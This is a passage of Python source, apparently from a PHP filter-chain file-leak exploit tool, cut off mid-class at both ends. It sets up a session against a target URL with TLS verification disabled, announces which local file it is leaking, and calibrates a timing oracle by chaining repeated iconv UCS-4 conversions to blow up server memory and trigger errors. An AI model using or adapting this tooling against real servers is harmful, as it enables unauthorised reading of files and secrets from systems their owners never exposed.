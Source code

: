 ```
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy:
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False

    """
    Instantiates a requests session for optimization
    """

    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False

    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """

    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
```